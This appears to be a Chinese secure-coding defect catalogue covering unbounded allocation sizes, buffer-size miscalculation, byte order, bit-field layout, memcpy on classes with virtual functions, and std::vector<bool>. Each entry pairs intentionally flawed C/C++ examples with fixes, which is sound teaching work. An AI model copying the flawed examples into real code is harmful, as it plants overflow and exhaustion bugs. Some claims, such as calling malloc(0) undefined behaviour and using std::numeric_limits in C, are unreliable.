

# CWD-1002 内存分配大小未受限

**描述**
内存分配大小未受限通常由以下原因导致：


- 外部可控参数：内存分配的大小由外部输入控制，且未进行充分验证。- 缺乏有效的边界检查：未对内存分配的大小进行合理的范围限制。
这种不受限制的内存分配可能导致以下严重安全问题：


- 资源耗尽：不受限制的内存分配会导致系统内存被耗尽，进而引发拒绝服务（DoS）攻击，导致服务不可用或系统崩溃。- 未定义行为：当内存分配大小为0，可能导致未定义行为。
建议对所有来源于外部的输入进行严格的验证和过滤，设置合理的内存分配上限，并实施全面的边界检查机制。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：内存分配限制
  在设计阶段明确内存分配的最小和最大限制，避免申请0长度内存或过大的内存。
- 策略2：安全边界设计
  设计内存分配时考虑攻击者可能控制输入的情况，对外部输入的内存分配大小进行严格的验证，确保内存分配逻辑能够抵御恶意输入。

**编码**
- 策略1：内存分配前的参数验证
  内存申请前，要求对由程序外部控制的申请内存大小进行合法性校验，确保内存大小在合理范围内：大于0并小于一个符合业务预期的最大可申请内存值。

**开发者测试**
- 策略1：边界条件测试
  编写测试用例，覆盖所有可能的外部输入情况，包括边界值和异常值。测试应包括输入为0、最大值、最小值以及负数等情况，以确保系统能够正确处理这些情况，并防止内存分配大小未受限的问题。
- 策略2：攻击场景模拟
  模拟攻击者控制内存分配大小的情况，测试系统是否能够正确处理或拒绝恶意输入。
- 策略3：动态分析工具
  使用动态分析工具（如 Valgrind、AddressSanitizer）检测内存越界访问或内存泄漏问题

**代码Review**
- 策略1：内存分配逻辑审查
  在代码审查过程中，特别关注内存分配的地方，确保所有外部输入都经过验证。检查边界检查和限制措施是否正确实现，确保没有遗漏任何验证步骤。
- 策略2：防止整数溢出
  审查内存大小的计算逻辑，确保没有整数溢出风险。
- 策略3：0长度内存检查
  确保代码中没有可能导致0长度内存分配的情况。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测内存分配相关的潜在问题，检查是否有外部输入直接用于内存分配而没有验证。
- 策略2：工具动态安全扫描
  使用动态分析工具（如动态fuzz工具）监控内存分配情况，确保没有超出限制。

**集成测试**
- 策略1：系统级内存测试
  在集成测试中，验证内存分配逻辑在系统层面的正确性，确保模块间协作无误。
- 策略2：压力测试
  通过长时间运行和高负载测试，验证内存分配逻辑在极端情况下的稳定性。
- 策略3：攻击场景测试
  在集成测试阶段，模拟各种外部输入，确保内存分配的防护措施有效。

**示例**
**案例1: 内存分配未校验最小值导致可能申请0长度内存**
**语言: **C

**描述**
当程序从外部输入获取内存分配的大小时，如果仅检查了最大值而未检查最小值，可能导致内存分配大小为0，从而引发未定义行为。

**案例分析**
在C语言中，malloc函数用于动态内存分配。如果分配的大小为0，malloc的行为是未定义的，可能返回空指针或导致其他不可预测的结果。因此，必须确保内存分配的大小在合理范围内，既不能超过最大限制，也不能低于最小限制。最小限制应与数据类型相关，例如，如果分配一个int指针int *p = malloc(n)，则n至少应为sizeof(int)，以确保内存分配的大小能够容纳目标数据类型。

**反例**
```c
#define MAX_MEMORY 100

int DoSomething(size_t n)
{
    // 仅检查最大值，未检查最小值
    if (n > MAX_MEMORY) {
        Log("内存分配大小超出限制！");
        return ERROR;
    }

    void *ptr = malloc(n); // 不符合：如果n为0，可能导致未定义行为
    if (ptr == NULL) {
        Log("内存分配失败！");
        return ERROR;
    }

    // 使用分配的内存
    // ...

    free(ptr);
    return OK;
}
```

**正例**
```c
#define MAX_MEMORY 100
#define MIN_MEMORY 1

int DoSomething(size_t n)
{
    // 同时检查最大值和最小值
    if (n < MIN_MEMORY || n > MAX_MEMORY) {
        Log("内存分配大小超出范围！\n");
        return ERROR;
    }

    void *ptr = malloc(n); // 符合：确保n在合理范围内
    if (ptr == NULL) {
        Log("内存分配失败！\n");
        return ERROR;
    }

    // 使用分配的内存
    // ...

    free(ptr);
    return OK;
}
```

**修复建议**
确保所有外部输入在用于内存分配之前都经过严格的验证，包括最小值和最大值。最小值应与数据类型相关，例如，如果分配一个int指针int *p = malloc(n)，则n至少应为sizeof(int)，以确保内存分配的大小能够容纳目标数据类型。

**案例2: 内存分配未校验最小值导致可能申请0长度内存**
**语言: **CPP

**描述**
当程序从外部输入获取内存分配的大小时，如果仅检查了最大值而未检查最小值，可能导致内存分配大小为0，从而引发未定义行为。

**案例分析**
在C++中，new运算符用于动态内存分配。如果分配的大小为0，new的行为是未定义的，可能返回空指针或导致其他不可预测的结果。因此，必须确保内存分配的大小在合理范围内，既不能超过最大限制，也不能低于最小限制（通常为1）。

**反例**
```cpp
constexpr int MAX_MEMORY = 100;

int DoSomething(size_t n)
{
    // 仅检查最大值，未检查最小值
    if (n > MAX_MEMORY) {
        Log("内存分配大小超出限制！");
        return ERROR;
    }

    int *ptr = new(std::nothrow) int[n]; // 不符合：如果n为0，可能导致未定义行为
    if (ptr == nullptr) {
        Log("内存分配失败！");
        return ERROR;
    }

    // 使用分配的内存
    // ...

    delete[] ptr;
    return OK;
}
```

**正例**
```cpp
constexpr int MAX_MEMORY = 100;
constexpr int MIN_MEMORY = 1;

int DoSomething(size_t n)
{
    // 同时检查最大值和最小值
    if (n < MIN_MEMORY || n > MAX_MEMORY) {
        Log("内存分配大小超出范围！\n");
        return ERROR;
    }

    int *ptr = new(std::nothrow) int[n]; // 符合：确保n在合理范围内
    if (ptr == nullptr) {
        Log("内存分配失败！\n");
        return ERROR;
    }

    // 使用分配的内存
    // ...

    delete[] ptr;
    return OK;
}
```

**修复建议**
确保所有外部输入在用于内存分配之前都经过严格的验证，包括最小值和最大值。

#### CWD-1002-000 内存分配大小未受限

#### CWD-1002-001 使用来自内部数据的数值，单次进行内存申请，作为内存分配的大小前未校验，可能导致内存耗尽

#### CWD-1002-002 使用来自内部数据的数值，单次进行内存申请，作为内存分配的大小前未校验，可能导致内存分配大小为0，从而引发未定义行为

#### CWD-1002-003 使用来自内部数据的数值，单次进行容器容量，作为容器的大小前未校验，可能导致内存耗尽

#### CWD-1002-004 使用来自内部数据的数值，单次进行容器容量，作为容器的大小前未校验，可能导致容器分配大小为0，从而引发未定义行为

#### CWD-1002-005 使用来自内部数据的数值，单次进行内存申请，作为内存分配的大小前校验错误，可能导致内存耗尽

#### CWD-1002-006 使用来自内部数据的数值，单次进行内存申请，作为内存分配的大小前校验错误，可能导致内存分配大小为0，从而引发未定义行为

#### CWD-1002-007 使用来自内部数据的数值，单次进行容器容量，作为容器的大小前校验错误，可能导致内存耗尽

#### CWD-1002-008 使用来自内部数据的数值，单次进行容器容量，作为容器的大小前校验错误，可能导致容器分配大小为0，从而引发未定义行为

#### CWD-1002-009 使用来自外部数据的数值，单次进行内存申请，作为内存分配的大小前未校验，可能导致内存耗尽

#### CWD-1002-010 使用来自外部数据的数值，单次进行内存申请，作为内存分配的大小前未校验，可能导致内存分配大小为0，从而引发未定义行为

#### CWD-1002-011 使用来自外部数据的数值，单次进行容器容量，作为容器的大小前未校验，可能导致内存耗尽

#### CWD-1002-012 使用来自外部数据的数值，单次进行容器容量，作为容器的大小前未校验，可能导致容器分配大小为0，从而引发未定义行为

#### CWD-1002-013 使用来自外部数据的数值，单次进行内存申请，作为内存分配的大小前校验错误，可能导致内存耗尽

#### CWD-1002-014 使用来自外部数据的数值，单次进行内存申请，作为内存分配的大小前校验错误，可能导致内存分配大小为0，从而引发未定义行为

#### CWD-1002-015 使用来自外部数据的数值，单次进行容器容量，作为容器的大小前校验错误，可能导致内存耗尽

#### CWD-1002-016 使用来自外部数据的数值，单次进行容器容量，作为容器的大小前校验错误，可能导致容器分配大小为0，从而引发未定义行为

#### CWD-1002-017 使用来自内部数据的数值，多次进行内存申请，但未校验内存累积申请的总量，可能导致内存耗尽

#### CWD-1002-018 使用来自内部数据的数值，多次申请容器容量，但未校验容器累积的总容量，可能导致内存耗尽

#### CWD-1002-019 使用来自内部数据的数值，多次进行内存申请，但校验错误内存累积申请的总量，可能导致内存耗尽

#### CWD-1002-020 使用来自内部数据的数值，多次申请容器容量，但校验错误容器累积的总容量，可能导致内存耗尽

#### CWD-1002-021 使用来自外部数据的数值，多次进行内存申请，但未校验内存累积申请的总量，可能导致内存耗尽

#### CWD-1002-022 使用来自外部数据的数值，多次申请容器容量，但未校验容器累积的总容量，可能导致内存耗尽

#### CWD-1002-023 使用来自外部数据的数值，多次进行内存申请，但校验错误内存累积申请的总量，可能导致内存耗尽

#### CWD-1002-024 使用来自外部数据的数值，多次申请容器容量，但校验错误容器累积的总容量，可能导致内存耗尽

---

# CWD-1003 用于内存分配的缓冲区大小计算错误

**描述**
在程序进行内存分配时，由于分配大小的计算不正确，导致分配的内存空间与实际需求不匹配。这种情况通常发生在内存分配时的计算逻辑存在缺陷，导致分配的内存空间大于或小于实际需要的空间。当实际拷贝的数据超过分配的内存空间时，则可能导致越界读取或写入，从而可能导致程序运行异常。建议内存分配的大小使用无符号整数类型（如size_t）来表示，避免因类型溢出导致计算错误。此外，在计算内存大小时，确保所有操作都在合理的范围内，避免整数溢出或截断。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：缓冲区大小验证
  设计时确保缓冲区大小的计算逻辑正确，避免因参数错误或整数溢出导致的内存分配错误。

**编码**
- 策略1：使用无符号整数
  在计算内存大小时，使用无符号整数类型（如size_t），避免结果被截断。
- 策略2：检查溢出风险
  在关键计算点进行溢出检测，确保结果在合理范围内。如果发现溢出，及时处理，避免继续执行导致错误。
- 策略3：避免整数截断
  在进行类型转换时，确保不会发生整数截断。例如，避免将较大的整数类型转换为较小的类型，除非有明确的范围检查。

**开发者测试**
- 策略1：边界条件测试
  编写测试用例，验证内存分配在最小值、最大值和极端值（如可能导致溢出的临界值）情况下的行为。
- 策略2：计算结果检查
  编写测试用例，检查内存分配的计算结果，确保其与预期一致。
- 策略3：动态分析工具
  使用动态分析工具（如 Valgrind、AddressSanitizer）检测内存越界访问或内存泄漏问题

**代码Review**
- 策略1：审查内存分配逻辑
  在代码审查过程中，重点检查内存分配的逻辑，确保计算正确，避免因逻辑错误导致内存分配大小不正确。
- 策略2：检查类型使用
  审查代码中内存分配大小的类型使用情况，确保使用了无符号整数类型（如size_t），避免因类型溢出导致计算错误。
- 策略3：检查溢出风险
  在审查过程中，检查内存分配大小的计算是否有溢出风险，确保在计算过程中不会发生溢出。

**编译构建**
- 策略1：启用内存安全选项
  在编译时启用与溢出相关的警告（参考《华为编译选项规范V3.2》），帮助开发者发现潜在的类型截断或溢出问题。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检查内存分配的大小计算是否有潜在的溢出风险，确保所有计算都在合理的范围内。
- 策略2：工具动态安全扫描
  使用动态分析工具（如动态fuzz工具）检测内存分配时的异常行为。

**示例**
**案例1: 内存分配长度计算结果被截断，导致内存越界风险**
**语言: **C

**描述**
在内存分配过程中，若使用较小的数据类型存储计算结果，可能导致数据截断，进而引发内存越界访问。

**案例分析**
uiCount 是 uint32_t 类型，导致 uiCount * sizeof(int) 的结果可能超过 uint16_t 的最大值（65535），从而导致数据截断。这将使 requiredBufLen 的值不正确，malloc 分配的内存长度不足，后续写入时可能越界。

**反例**
```c
void BadCase()
{
    uint32_t uiCount = ...;
    uint16_t requiredBufLen = (uint16_t)(uiCount * sizeof(int)); // uiCount * sizeof(int) 的结果可能超过 uint16_t 的最大值

    int* array = (int*)malloc(requiredBufLen);  // 不符合：内存长度不足，后续写入时可能越界
    if (array == NULL) { // 检查内存分配是否成功
        return;
    }
    // 使用分配的内存
    // ...

    free(array);
}
```

**正例**
```c
void GoodCase()
{
    uint32_t uiCount = ...;

    // 检查内存分配是否会溢出
    if (uiCount > std::numeric_limits<size_t>::max() / sizeof(int)) {
        return;
    }

    size_t requiredBufLen = uiCount * sizeof(int); // 使用 size_t 类型存储计算结果

    int* array = (int*)malloc(requiredBufLen);  // 符合
    if (array == NULL) { // 检查内存分配是否成功
        return;
    }
    // 使用分配的内存
    // ...

    free(array);
}
```

**修复建议**
1. 使用无符号整数类型：在计算内存大小时，使用size_t类型，因为它是无符号的，能够容纳更大的数值，避免溢出或截断。
2. 检查计算结果是否会溢出或回绕：在进行内存大小计算前，先检查是否会溢出。

**案例2: 内存分配长度和实际存储的数据类型不匹配，导致内存越界风险**
**语言: **C

**描述**
假设有一个结构体Base，外部传入一个Base*指针和一个表示对象数量的n。如果在申请内存时，误将malloc的参数设置为n（即分配n个字节），而不是n * sizeof(Base)（即每个结构体占用的内存大小乘以数量），则会导致内存分配不足。

**案例分析**
假设Base结构体的大小为16字节，而n为3，则实际需要的内存空间为3 * 16 = 48字节。如果误分配为3字节，则当程序尝试写入3个Base对象时，超出的45字节数据会覆盖相邻的内存区域，导致缓冲区溢出。

**反例**
```c
Base* p = (Base*)malloc(n);  // 不符合：错误地使用n作为内存大小，这里应是 n * sizeof(Base)
if (p == NULL) {
    ...
}
```

**正例**
```c
// 先校验n在合理范围内，防止乘法溢出
if (n == 0 || n > MAX_NUM) {
    ... // 错误处理
}

Base* p = (Base*)malloc(n * sizeof(Base)); // 符合：正确地使用n * sizeof(Base)作为内存大小
if (p == NULL) {
    ...
}
```

**修复建议**
在使用malloc()分配内存时，确保内存大小的计算是数量 * 单个对象的大小，即n * sizeof(对象类型)。

**案例3: 内存分配长度计算截断导致越界写入**
**语言: **CPP

**描述**
内存分配的长度计算如果使用了不合适的整数类型，可能导致计算结果被截断。这会使得分配的内存空间小于实际需求，进而引发越界写入，导致程序崩溃或不可预测的行为。

**案例分析**
rows被设置为20亿，columns是4。计算requiredSize时，20亿乘以4等于80亿，这超出了int的最大值（通常为2,147,483,647）。因此，requiredSize会被截断为负数或一个较小的正数，导致内存分配的大小远小于实际需要。当尝试写入20亿个元素时，程序会越界写入，导致不可预测的行为。

**反例**
```cpp

int Fun()
{
    const int rows = 2000000000; // 2 billion
    const int columns = 4;

    // 错误地使用int来计算内存大小，导致溢出
    int requiredSize = rows * columns;

    // 分配内存
    int* array = new(std::nothrow) int[requiredSize]; // 不符合：分配的内存空间不足
    if (array == nullptr) {
        return ERROR;
    }
    // 写入数据，导致越界写入
    for (int i = 0; i < rows; ++i) {
        array[i] = i;
    }

    delete[] array;

    return OK;
}
```

**正例**
```cpp
int Fun()
{
    const size_t rows = 2000000000; // 2 billion
    const size_t columns = 4;

    // 检查内存分配是否会溢出
    if (rows > std::numeric_limits<size_t>::max() / columns) {
        return ERROR;
    }

    // 正确地使用size_t来计算内存大小
    size_t requiredSize = rows * columns;

    // 分配内存
    int* array = new(std::nothrow) int[requiredSize]; // 符合
    if (array == nullptr) {
        return ERROR;
    }

    // 写入数据
    for (size_t i = 0; i < rows; ++i) {
        array[i] = i;
    }

    delete[] array;

    return OK;
}
```

**修复建议**
1. 使用无符号整数类型：在计算内存大小时，使用size_t类型，因为它是无符号的，能够容纳更大的数值，避免溢出或截断。
2. 检查计算结果是否会溢出或回绕：在进行内存大小计算前，先检查是否会溢出。

#### CWD-1003-000 用于内存分配的缓冲区大小计算错误

#### CWD-1003-001 使用来自内部数据的数值进行长度计算时，遗漏计算元素使得长度计算结果错误，此结果作为内存分配的大小，导致内存分配比预期的要小或大

#### CWD-1003-002 使用来自内部数据的数值进行长度计算时，计算值发生溢出使得长度计算结果错误，此结果作为内存分配的大小，导致内存分配比预期的要小或大

#### CWD-1003-003 使用来自内部数据的数值进行长度计算时，计算结果是负数使得长度计算结果错误，此结果作为内存分配的大小，导致内存分配比预期的要小或大

#### CWD-1003-004 使用来自外部数据的数值进行长度计算时，遗漏计算元素使得长度计算结果错误，此结果作为内存分配的大小，导致内存分配比预期的要小或大

#### CWD-1003-005 使用来自外部数据的数值进行长度计算时，计算值发生溢出使得长度计算结果错误，此结果作为内存分配的大小，导致内存分配比预期的要小或大

#### CWD-1003-006 使用来自外部数据的数值进行长度计算时，计算结果是负数使得长度计算结果错误，此结果作为内存分配的大小，导致内存分配比预期的要小或大

**业界缺陷**

- [CWE-131: Incorrect Calculation of Buffer Size](https://cwe.mitre.org/data/definitions/131.html)
---

# CWD-1005 不正确的字节序

**描述**
在计算机科学中，字节序（Byte Order）指的是多字节数据类型（如整数、浮点数等）在内存中的存储顺序。根据不同的存储方式，可以分为大端字节序（Big-Endian）和小端字节序（Little-Endian），在处理数据时未考虑字节序，会导致使用错误的值。这种情况通常发生在网络通信或跨平台数据传输中，当发送方和接收方的字节顺序不一致时，如果没有进行适当的转换，就会引发这个问题。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠,可移植

**缺陷防护全景**
**软件实现设计**
- 策略1：明确字节顺序要求
  在设计阶段确定系统中数据传输和存储的字节顺序，如使用网络字节顺序（大端）或主机字节顺序（小端）。
- 策略2：统一数据格式
  选择一种统一的字节顺序，并在系统接口处进行必要的转换，确保所有模块遵循相同的规范。

**编码**
- 策略1：使用转换函数
  在处理网络数据时，使用 hton 和 ntoh 系列函数进行字节顺序转换。
- 策略2：利用跨平台库
  选择已处理字节顺序问题的库或框架，减少手动操作。
- 策略3：避免直接操作字节流
  使用标准库API，减少直接操作字节流的机会，降低错误风险。

**开发者测试**
- 策略1：模拟不同字节顺序
  设计测试用例，模拟小端和大端系统，验证数据转换的正确性。
- 策略2：边界条件测试
  测试最大值和最小值，确保字节顺序转换不会导致数据错误。

**代码Review**
- 策略1：检查转换函数
  确保 hton 和 ntoh 函数正确使用，数据转换在适当位置进行。
- 策略2：审查字节操作
  检查是否有直接操作字节流的代码，评估其是否正确处理了字节顺序。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测潜在的字节顺序错误，识别未正确转换的数据处理。

**集成测试**
- 策略1：跨平台测试
  在不同平台上运行程序，验证数据传输和存储的正确性。
- 策略2：数据一致性检查
  确保在不同系统间传输的数据保持一致，避免因字节顺序导致的错误。

**示例**
**案例1: 部分数据遗漏字节顺序转换操作**
**语言: **C

**描述**
一个结构体内，有的参数使用字节序转换，有的参数未使用字节序转换，可能产生问题。

**案例分析**
定义了一个结构体Info，其中包含两个unsigned short类型的成员a和b。在代码中，a被正确地使用了htons函数进行了字节序转换，而b则没有进行转换，直接赋值。这可能是一个遗漏，需要确认是否应该进行转换。

**反例**
```c
typedef struct tag_Info {
    unsigned short a;
    unsigned short b;
} Info;

Info info;
unsigned short v1 = GetValue1();
unsigned short v2 = GetValue2();

info.a = htons(v1);  // 正确地进行了字节序转换
info.b = v2;         // 不符合：未使用字节序转换，可能是遗漏

```

**正例**
```c
typedef struct tag_Info {
    unsigned short a;
    unsigned short b;
} Info;

Info info;
unsigned short v1 = GetValue1();
unsigned short v2 = GetValue2();

info.a = htons(v1);  // 正确地进行了字节序转换
info.b = htons(v2);  // 符合：对b进行字节序转换
```

**修复建议**
1. 明确字节顺序要求： 在设计阶段确定系统中数据传输和存储的字节顺序，如使用网络字节顺序（大端）或主机字节顺序（小端）。
2. 使用转换函数： 在处理网络数据时，使用hton和ntoh系列函数进行字节顺序转换，确保所有需要传输的结构体成员都进行了转换。
3. 代码审查： 检查代码中是否有遗漏字节序转换的结构体成员，确保所有数据转换都正确使用了字节顺序转换函数。

**案例2: 部分数据遗漏字节顺序转换操作**
**语言: **CPP

**描述**
一个结构体内，有的参数使用字节序转换，有的参数未使用字节序转换，可能产生问题。

**案例分析**
定义了一个结构体Info，其中包含两个unsigned short类型的成员a和b。在代码中，a被正确地使用了htons函数进行了字节序转换，而b则没有进行转换，直接赋值。这可能是一个遗漏，需要确认是否应该进行转换。

**反例**
```cpp
typedef struct tag_Info {
    unsigned short a;
    unsigned short b;
} Info;

Info info;
unsigned short v1 = GetValue1();
unsigned short v2 = GetValue2();

info.a = htons(v1);  // 正确地进行了字节序转换
info.b = v2;         // 不符合：未使用字节序转换，可能是遗漏

```

**正例**
```cpp
typedef struct tag_Info {
    unsigned short a;
    unsigned short b;
} Info;

Info info;
unsigned short v1 = GetValue1();
unsigned short v2 = GetValue2();

info.a = htons(v1);  // 正确地进行了字节序转换
info.b = htons(v2);  // 符合：对b进行字节序转换
```

**修复建议**
1. 明确字节顺序要求： 在设计阶段确定系统中数据传输和存储的字节顺序，如使用网络字节顺序（大端）或主机字节顺序（小端）。
2. 使用转换函数： 在处理网络数据时，使用hton和ntoh系列函数进行字节顺序转换，确保所有需要传输的结构体成员都进行了转换。
3. 代码审查： 检查代码中是否有遗漏字节序转换的结构体成员，确保所有数据转换都正确使用了字节顺序转换函数。

#### CWD-1005-000 不正确的字节序

#### CWD-1005-001 预期使用网络序，但是使用时未转换为网络序，导致使用错误的值

#### CWD-1005-002 预期使用主机序，但是使用时未转换为主机序，导致使用错误的值

**业界缺陷**

- [CWE-198: Use of Incorrect Byte Ordering](https://cwe.mitre.org/data/definitions/198.html)
---

# CWD-1006 依赖带位域的结构体的内存布局

**描述**
位域（也称为位段或位字段）允许在结构体或联合体中定义具有特定宽度的成员变量，这些成员变量可以占用更少的内存。例如，可以用几个位来表示一个变量，而不是占用整个字节。这在嵌入式系统中非常有用，因为内存资源有限。

然而，位域的存储布局在不同的编译器或系统中可能会有所不同。这种差异可能导致代码不具备可移植性。如果位域的变量的读写操作使用内存复制或按位写入方式，在不同系统下其值可能不同，从而引发功能异常或错误。

为了避免这些问题，建议避免直接进行内存操作，改用显式读取或指定每个位域变量的方法。此外，应在不同系统上进行充分的测试，确保位域的读写行为符合预期。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠,可移植

**缺陷防护全景**
**编码**
- 策略1：避免直接内存操作
  在对带位域的结构体赋值时，显式读取或指定每个位域变量的值。

**开发者测试**
- 策略1：跨平台测试
  进行跨平台测试，确保位域处理正确。

**代码Review**
- 策略1：确保可移植性
  重点检查位域的使用，确保可移植性。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测位域相关问题，如直接操作内存，而不是访问位域变量。

**集成测试**
- 策略1：跨平台测试
  进行跨平台测试，确保位域处理正确。

**示例**
**案例1: 使用memcpy复制带位域的结构体**
**语言: **C

**描述**
在不同系统下，结构体的内存布局可能不同，直接使用内存复制可能导致不可移植的问题。

**案例分析**
在不同系统下，结构体的内存布局可能因字节序和对齐方式而异，直接复制内存可能导致数据错误。

**反例**
```c
/*
 * 以int为32bit的系统为例，BitFrame 共32bit。
 * 在小端序的系统中，BitFrame的可能存储顺序为 offset低位、offset高位、page、dir
 * 在大端序的系统中，BitFrame的可能存储顺序为 dir、page、offset高位、offset低位
 */

typedef struct {
    uint32_t offset : 16;
    uint32_t page : 8;
    uint32_t dir : 8;
} BitFrame;
...

BitFrame addr = {0};
uint8_t msg[sizeof(BitFrame)];
...
// 在不同系统下msg的内容可能不同的，使用内存复制的方式不可移植
errno_t ret = memcpy_s(&addr, sizeof(addr), msg, sizeof(msg));
...
```

**正例**
```c
typedef struct {
    uint32_t offset : 16;
    uint32_t page : 8;
    uint32_t dir : 8;
} BitFrame;
...

BitFrame addr = {0};
uint8_t msg[sizeof(BitFrame)];
...
addr.dir = msg[0]; // 显式指定位域变量的值
...
```

**修复建议**
避免直接使用 memcpy 复制结构体，而是显式地将每个字段赋值。

**案例2: 使用memcpy复制带位域的结构体**
**语言: **CPP

**描述**
在不同系统下，结构体的内存布局可能不同，直接使用内存复制可能导致不可移植的问题。

**案例分析**
在不同系统下，结构体的内存布局可能因字节序和对齐方式而异，直接复制内存可能导致数据错误。

**反例**
```cpp
/*
 * 以int为32bit的系统为例，BitFrame 共32bit。
 * 在小端序的系统中，BitFrame的可能存储顺序为 offset低位、offset高位、page、dir
 * 在大端序的系统中，BitFrame的可能存储顺序为 dir、page、offset高位、offset低位
 */

typedef struct {
    uint32_t offset : 16;
    uint32_t page : 8;
    uint32_t dir : 8;
} BitFrame;
...

BitFrame addr = {0};
uint8_t msg[sizeof(BitFrame)];
...
// 在不同系统下msg的内容可能不同的，使用内存复制的方式不可移植
errno_t ret = memcpy_s(&addr, sizeof(addr), msg, sizeof(msg));
...
```

**正例**
```cpp
typedef struct {
    uint32_t offset : 16;
    uint32_t page : 8;
    uint32_t dir : 8;
} BitFrame;
...

BitFrame addr = {0};
uint8_t msg[sizeof(BitFrame)];
...
addr.dir = msg[0]; // 显式指定位域变量的值
...
```

**修复建议**
避免直接使用 memcpy 复制结构体，而是显式地将每个字段赋值。

#### CWD-1006-000 依赖带位域的结构体的内存布局

#### CWD-1006-001 通过下标访问对带位域的结构体进行赋值，导致在不同系统下其值可能不同

#### CWD-1006-002 通过拷贝函数对带位域的结构体进行赋值，导致在不同系统下其值可能不同

---

# CWD-1007 不正确的逐位操作

**描述**
满足trivially copyable 的类型主要包括：


1. 算术类型，如： bool 、char 、int 、 float 、double 等2. 枚举类型3. 指针类型4. 满足trivially copyable 的类。一般来说该类中没有虚函数或虚基类；类的非静态成员变量满足trivially copyable；类的析构函数不是自定义的；至少有一个有效的拷贝构造函数、拷贝赋值操作符、移动构造函数或移动赋值操作符，并且这些函数都不是自定义的。详见C++语言标准中对“trivially copyable class”的描述5. 上面这些类型的数组
而非trivially copyable类型，就是不满足上述条件的类型。非trivially copyable类型对象中可能含有编译器生成的隐藏数据（如：虚表指针），如果逐位操作这些对象，可能会破坏对象的内部数据，造成严重问题。

**语言: **CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：避免使用memcpy等函数
  在处理非trivially copyable对象时，不要使用memcpy、memmove或memset等函数，这些函数会逐位复制内存，破坏对象的内部结构。
- 策略2：使用安全的复制方法
  使用对象的拷贝构造函数或赋值操作符来进行复制，确保复制操作符合对象的语义。

**开发者测试**
- 策略1：单元测试
  编写单元测试，验证对象在复制、移动等操作后的状态是否正确，确保没有出现未定义行为。

**代码Review**
- 策略1：审查内存操作
  在代码审查过程中，特别关注所有涉及内存操作的部分，确保没有不当使用memcpy等函数的情况。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测相关问题，如逐位操作非trivially copyable对象。

**示例**
**案例1: 使用memcpy复制有虚函数的类对象**
**语言: **CPP

**描述**
虚函数的存在意味着类对象中包含虚函数表指针（vptr），memcpy会逐位操作这些对象，可能会破坏对象的内部数据，造成严重问题。

**案例分析**
Point类包含一个虚函数Fun()，因此其对象中包含虚函数表指针（vptr）。使用std::memcpy直接复制对象b到a，会直接复制内存中的所有内容，包括vptr。这在多继承或虚函数存在时可能导致vptr指向错误的位置，从而引发程序错误或崩溃。

**反例**
```cpp
class Point {
public:
    virtual void Fun() {}; // 虚函数
    ...

private:
    int x = 0;
    int y = 0;
};

void Foo()
{
    Point a;
    Point b;

    memcpy(&a, &b, sizeof(Point)); // 不符合
    ...
}
```

**正例**
```cpp
class Point {
public:
    virtual void Fun() {};
    ...

private:
    int x = 0;
    int y = 0;
};

void Foo()
{
    Point a;
    Point b = a; // 符合
}
```

**修复建议**
1. 不要直接使用memcpy来复制包含虚函数的类对象。
2. 类对象使用构造函数或赋值构造函数来进行初始化或赋值。

#### CWD-1007-000 不正确的逐位操作

#### CWD-1007-001 逐位拷贝带有虚函数的类对象，可能破坏对象的内部数据

---

# CWD-1008 使用可能导致内存布局不兼容的std：：vector<bool>

**描述**
`std::vector<bool>` 并不是简单地将每个布尔值存储在一个单独的 `bool` 类型的元素中，而是通过位域（bitfield）的方式进行存储，这样可以极大地节省内存空间。

但是，这种实现方式导致了 `std::vector<bool>` 的行为与普通 `std::vector<T>` 有所不同。

因此，不建议使用 `std::vector<bool>`，可以考虑 `std::bitset、std::array<bool, N>、std::deque` 或将 bool 包装起来等方法替代。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠,可移植

**缺陷防护全景**
**编码**
- 策略1：不要使用`std::vector<bool>`
  在编码时，不建议使用 `std::vector<bool>`，改用推荐的替代容器。例如，使用`std::bitset、std::array<bool, N>、std::deque`等来存储布尔值，确保内存布局的兼容性。

**代码Review**
- 策略1：不要使用`std::vector<bool>`
  代码审查过程中，特别检查是否有`std::vector<bool>`的使用。确认所有实例已被替换为合适的替代方案。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测`std::vector<bool>`的使用。

**示例**
**案例1: 使用`std::vector<bool>`**
**语言: **CPP

**描述**
由于 `std::vector<bool>` 的特殊实现，可能会导致内存布局上的不兼容问题，从而引发未定义行为或程序崩溃。

**反例**
```cpp
std::vector<bool> vec(8); // 不符合：使用 std::vector<bool>
// std::vector<bool>不支持此操作，编译会报错：auto &tmp = vec[0];
```

**正例**
```cpp
std::deque<bool> deq(8, false);  // 符合
auto &x = deq[0]; // 支持此操作
```

**修复建议**
需要处理布尔值集合时，不建议使用 `std::vector<bool>`，改用推荐的替代容器。

#### CWD-1008-000 使用可能导致内存布局不兼容的std::vector<bool>

#### CWD-1008-001 使用std::vector<bool>类型对象，导致内存布局上的不兼容问题

---

# CWD-1009 未受认可的内存安全函数

**描述**
